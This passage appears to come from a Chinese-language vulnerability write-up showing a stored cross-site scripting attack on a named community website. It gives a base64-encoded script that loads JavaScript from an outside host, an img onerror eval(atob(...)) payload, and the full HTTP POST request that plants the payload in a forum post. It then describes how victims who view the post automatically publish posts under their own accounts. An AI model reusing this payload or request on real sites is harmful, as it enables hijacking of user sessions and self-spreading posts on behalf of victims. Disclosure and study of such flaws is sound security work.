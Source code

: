         base64：
        dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMWYwNjBlODY2NDQxNDU4ZDhlYjY1YWYyN2Q4YmFjMjInO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs=

        xss payload：
        <img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMWYwNjBlODY2NDQxNDU4ZDhlYjY1YWYyN2Q4YmFjMjInO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>

        发送payload：
        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: xxxxx
        Content-Length: 514
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Origin: https://sowellwell.com

        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMWYwNjBlODY2NDQxNDU4ZDhlYjY1YWYyN2Q4YmFjMjInO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}


3. 登录另一个账号，访问xss页面，实现自动代替受害者发帖
    
    自动发帖链接（**仅供测试，已经删除**）：https://sowellwell.com/t/612f69f604c21506084dcda2/64fbd184bb034de073c97011
    ![autopost](./images/autopost.png)
